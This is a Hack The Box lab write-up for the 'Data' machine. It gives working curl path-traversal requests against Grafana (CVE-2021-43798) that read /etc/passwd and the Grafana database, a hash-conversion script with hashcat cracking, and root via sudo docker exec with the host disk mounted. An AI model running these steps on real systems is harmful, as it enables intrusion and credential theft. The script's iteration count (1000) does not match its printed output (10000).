# Write-Up: Data - Easy | [Machines](../../../MACHINES.md)

>  Platform: Hack The Box\
>  OS: Linux\
>  Difficulty: Easy\
>  Author: Fokos Nikolaos\
>  Completion Date: 31-07-2025\
>  Objective: Capture `user.txt` and `root.txt` flags

---

# Banner


---

# Summary

This writeup documents the full exploitation of the "Data" machine on Hack The Box. The target runs an instance of Grafana v8.0.0 on a Linux web server. We use the path traversal vulnerability in Grafana to read sensitive files, including the database file. We then crack the user password and gain SSH access as a system user. Privilege escalation is achieved via Docker where the user has sudo access, allowing us to run a shell inside the Docker container as root, and mount the hosts file system. The machine combines web enumeration, password cracking, and privilege escalation techniques — an excellent example of chaining vulnerabilities for full compromise.

---

## Target Enumeration
### Nmap Scan

```bash
nmap -sV -sC -F 10.129.141.120
```

#### Parameters:
- `-sV` Used to print the version of found services.
- `-sC` Used to print more details about found services.
- `-F` Scan the most commonly used ports.



### Results:
- Port 22/tcp - OpenSSH 7.9p1
- Port 3000/tcp - Grafana http

The nmap scan reveals two open ports: SSH on port 22 and Grafana on port 3000. The SSH service is running OpenSSH version 7.9p1, while the Grafana service is accessible via HTTP.

---

## Web Enumeration

At this stage we try to gain as much information as possible about our target as normal user. We collect clues and try to find vulnerabilities that we can exploit later.

Starting by browsing to 10.129.141.120:3000, reveals a Grafana login page.
Previously the nmap scan revealed the `/login` endpoint and also a reference to a `robots.txt` file.



In this page we can try to login with the default credentials `admin:admin`, which is unsuccessful. However, we can reset the password by clicking on the "**Forgot your password?**" link.

The reset password form requires a valid email address or username.

Trying `root` as the username just to see if the user exists, surprisingly returns a message indicating that an email has been sent to the user with instructions to reset the password.



The message confirms the existence of the `root` user, but we still can't make anything out of it.


Paying close attention to an obvious and possibly the most important information at this point, we notice the Grafana version, which is `v8.0.0`. We keep this in mind to search for possible exploits later.

Taking enumeration a step further, we can use `gobuster` or `dirsearch` to find other endpoints on the target's web page.

For simplicity we will use `dirsearch`. This utility is a simple command line tool designed to brute force directories (a.k.a. Dir-Busting) and files in web servers.

```bash
dirsearch -u http://10.129.141.120:3000
```

The results of the dirsearch show some interesting endpoints.



`dirsearch` reveals the `/api` endpoint although it's not accessible since it returned code 401 (Unauthorized).

We will focus on what we can currently use, which are the `/healthz`, `/login`, `/metrics`, `/public`, `/robots.txt` and `/signup` endpoints.

Starting off with the `/healthz` endpoint, it returned a simple message (Ok) indicating that the service is running as intended. Following with the `/signup` endpoint, we can see that it returned a form to create a new user. 



After inserting our credentials and submitting them, we receive a message informing us that the user registration process is disabled.


Trying other endpoints, `/public` redirects us back to the login page and `/metrics` shows us a wall of text with various metrics about the service. We can detect some references to the `/admin` page, but for now we will focus on further enumeration.

Accessing the `/robots.txt` file, a simple text file can be found with some rules for web crawlers. 

```
User-agent: *
Disallow: /
```

---

## Enumeration Report

What we know so far:
- The target is running Grafana version `v8.0.0`.
- The target has a valid user `root`.
- The target has a `/signup` endpoint that is disabled.
- The target has a `/api` endpoint that is not accessible.

---

## Exploitation

Using the information we gathered, we can now search for known vulnerabilities for Grafana `v8.0.0`. A quick web search reveals a known vulnerability for path traversal in Grafana versions `v8.0.0-beta1` through `v8.3.0`. The vulnerability is disclosed as [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798).

The vulnerability allows an attacker to read arbitrary files on the server by sending a specially crafted request to the `/public/plugins/` endpoint.

We can exploit this vulnerability by sending a request to the `/public/plugins/` endpoint with a path traversal payload to read local files on the server.

Searching for the exploit on [ExploitDB](https://www.exploit-db.com/exploits/50581), reveals a python script which automates the exploitation process. In this writeup both automated and manual exploitation is demonstrated.

We can also use `searchsploit` to search for the exploit locally. In Kali-Linux (and most Debian distributions) we can install the `exploitdb` package using the `apt` package manager. All the known exploits can be bound under `/usr/share/exploitdb/exploits`

```bash
sudo apt install exploitdb
```

Searching with `searchsploit` for Grafana exploits, reveals the locally stored `50581.py` script under `/usr/share/exploitdb/exploits/multiple/webapps/`.



#### Manual Exploitation

Inside the script, a `plugin_list` is found, containing a list of plugins that can be used to exploit the vulnerability. Selecting one of the listed plugins, it's time to craft our request.

```bash
curl --path-as-is http://10.129.141.120:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

The response reveals the contents of the `/etc/passwd` file, confirming that we can read arbitrary files on the server.



We can also read the Grafana database file, which is usually located at `/var/lib/grafana/grafana.db`.

```bash
curl --path-as-is http://10.129.141.120:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db --output grafana.db
```

After downloading the database file, `sqlitebrowser` is used to read its contents.

```bash
sqlitebrowser grafana.db
```



Inside the database the `user` table is found, which contains the users and their passwords, emails e.t.c. of the Grafana instance. We can execute an SQL query to retrieve the users and their passwords.

```sql
SELECT * FROM user;
```



The query reveals only the `admin` and `boris` users, along with their passwords. The passwords are stored in a hashed and salted format. Though it's interesting the fact that entering `admin` on the "Forgot Password" form returns a user not found message but `root` is accepted and "sends an email".

#### Automated Exploitation

Downloading the Python script from [ExploitDB](https://www.exploit-db.com/exploits/50581) and executing it will automatically exploit the vulnerability and read the requested file from the server.

```bash
python3 50581.py -H http://10.129.141.120
```



The script allows us to directly read a file from the server by specifying the file path.



This method can be used to read the database file, but it's important to note that the script can't output the contents of the file, to then use `sqlitebrowser` to read the table data, or do any other processing. It simply prints the file, and we have to read it's contents manually.

Besides these restrictions though, we still managed to extract the hashed passwords along with their salt.



---

## User Flag

We will use a Python script to convert the passwords to a more appropriate form, ideally readable by `hashcat` or `john`.

We have the following passwords:

- `admin:7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8:YObSoLj55S`
- `boris:dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8:LCBhdtJWjl`

The hashes seem to be in hexadecimal format, and the salt is base64 encoded, so we have to convert the hash to base64.

```python
import base64
import binascii

# User input for the hashed password
hashed_password = input("Enter the hashed password: ")
# User input for the salt
salt = input("Enter the salt: ")
# Hashcat iterations
iterations = 1000

# Decode the hexadecimal hash
try:
    decoded_hash = binascii.unhexlify(hashed_password)
except binascii.Error:
    print("Invalid hexadecimal hash.")
    exit(1)

# Hash encoding to base64
encoded_hash = base64.b64encode(decoded_hash).decode('utf-8')
# Salt encoding to base64
encoded_salt = base64.b64encode(salt.encode('utf-8')).decode('utf-8')

# Convert the encoded hash and salt to a readable format by hashcat
readable_hash = f"sha256:{iterations}:{encoded_salt}:{encoded_hash}"
print(f"Readable hash: {readable_hash}")
```

`python3 hash_converter.py`

After running the script, we get the following output:

- `admin:sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=`
- `boris:sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=`

Having the hashes in a readable format, we can now use `hashcat` to crack them.

```bash
hashcat -m 10900 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

#### Parameters:
- `-m 10900` Specifies the hash type (in this case, SHA-256 with salt).
- `-a 0` Specifies the attack mode (straight attack).
- `-o cracked.txt` Specifies the output file for cracked passwords.

`hashcat` had a hard time cracking the admin password, but it managed to crack `boris`'s password.



The cracked password for `boris` is `beautiful1`.

This password can be used to login to the Grafana instance as `boris`, and try to connect via `ssh`, checking for a possible credential recycling situation.

```bash
ssh boris@10.129.141.120
```

After entering the password `beautiful1`, we successfully logged in as the `boris` user to the system.



We can now capture the user flag found under our home directory.

```bash
ls
cat user.txt
```



We have successfully captured the user flag!

---

## Privilege Escalation

To escalate our privileges, we can try various tools and methods, to see if we can find a way to gain access to `root`. We usually start by checking the `sudo` permissions for the current user. This way we can know if `boris` has any special permissions to a specific binary.

```bash
sudo -l
```



The output shows that `boris` can run `docker exec` as `root` without a password. This technically means that we can run any command inside a Docker container as `root`.

Previously we noticed, just after logging in to the system via `ssh`, that there is a Docker instance running on the system.



If we manage to mount our file system inside the Docker container, we can run any command as `root` and gain full access. For this purpose we will need the container's ID or hostname.

Since the Grafana page is running inside Docker, we have to get the container ID from `/etc/hostname`.

---

## Root Flag

We execute again on our machine the following command to read the contents of `/etc/hostname`.

```bash
curl --path-as-is http://10.129.141.120:3000/public/plugins/welcome/../../../../../../../../etc/hostname
```



The response reveals the container ID, which is `e6ff5b1cbc85`.

Back to our targets machine, we can now use the `docker exec` command to run a shell inside the container as `root`.

```bash
sudo docker exec -u root -it e6ff5b1cbc85 /bin/bash
```

By running `whoami`, we can see that we are now `root`.



We check the `/dev` directory for disk partitions on the target's disk `sda`.



We find two (2) disk partitions, `sda1` and `sda2`. On most cases, the root file system is on `sda1`, but some exceptions may occur if the machine has an EFI (boot) partition. Back to `boris`, running a quick `lsblk`, confirms that `sda` is the disk of the system, while `sda1` is the root `/` and `sda2` is used as swap partition.



By mounting the root partition inside the container, we can now access the file system of the target machine.

```bash
mount /dev/sda1 /mnt
```



The target's root file system is now mounted and we can now access it. We can now navigate to the `/mnt/root` directory and capture the `root.txt` flag.

```bash 
ls /mnt/root
cat /mnt/root/root.txt
```



---

## Vulnerabilities

- Path Traversal vulnerability in Grafana `v8.0.0`.
- Credential recycling.
- Insecure implementation of Docker commands (allowing `docker exec` without proper restrictions).
- Outdated software.

---

## Learning Outcome

This machine taught me how to exploit a path traversal vulnerability in Grafana to read sensitive files directly using a crafted URL, crack user hashed and salted passwords using a custom Python script, and escalate privileges using Docker, by mounting the host's root filesystem inside the container used to serve the Grafana webpage. It also highlighted the importance of secure configurations and the risks of credential recycling.

---

## Tools Used
- `nmap`, `dirsearch`, `curl`, `searchsploit`, `sqlitebrowser`, `hashcat`, `ssh`.

---

## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798
- https://www.exploit-db.com/exploits/50581
- https://www.vulncheck.com/blog/grafana-cve-2021-43798
